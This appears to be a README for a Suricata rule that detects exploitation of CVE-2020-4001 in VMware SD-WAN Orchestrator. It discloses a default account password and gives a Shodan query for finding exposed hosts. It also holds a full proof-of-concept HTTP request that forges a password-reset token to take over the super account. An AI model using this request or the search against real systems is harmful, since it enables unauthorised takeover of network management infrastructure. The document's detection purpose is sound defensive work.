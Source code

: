 ## Overview
Due to the predefined (and disabled) account "super@velocloud.net" and the easily guessed token when reset password on VMware SD-WAN Orchestrator (former VeloCloud), attackers could re-enable this account and access the system via the web interface.

CVE-2020-4001 also enable the attackers' capacity to exploit CVE-2020-3984 and CVE-2020-4000 without the credentials of a valid user.

The Suricata rule tries to detect the reset password action of the account "super@velocloud.net" with the password hash "**f90b59f737bcdbfc7267b619508d426b3531446b5869ec5133d0f109ee744246**" (SHA-256 of "**vcadm!n**", the default password). However, you should bypass the case the sysadmin changes this password himself.

### Bonus for bug bounty hunters
Search for VMware SD-WAN Orchestrator on Shodan:
**http.title:"VeloCloud"**

## Proof of Concept
```
POST /login/doResetPassword.html HTTP/1.1
Host: example.com
Content-Length: 346
Content-Type: application/json

{"username": "super@velocloud.net", "password": "testpass", "userType": "OPERATOR", "token": "{CLEAR}{\"username\": \"super@velocloud.net\", \"userType\": \"OPERATOR\", \"logicalId\": \"c9408004-2b42-11e9-a642-0ad57a9a2532\", \"expiration\": \"test\", \"hash\": \"f90b59f737bcdbfc7267b619508d426b3531446b5869ec5133d0f109ee744246\"}", "userId": 5}
```

## References
* https://medium.com/realmodelabs/sd-pwn-part-4-vmware-velocloud-the-last-takeover-a7016f9a9175
* https://github.com/RealmodeLabs/SD-PWN/blob/master/vmware_velocloud_orchestrator_rce.py
* https://www.vmware.com/security/advisories/VMSA-2020-0025.html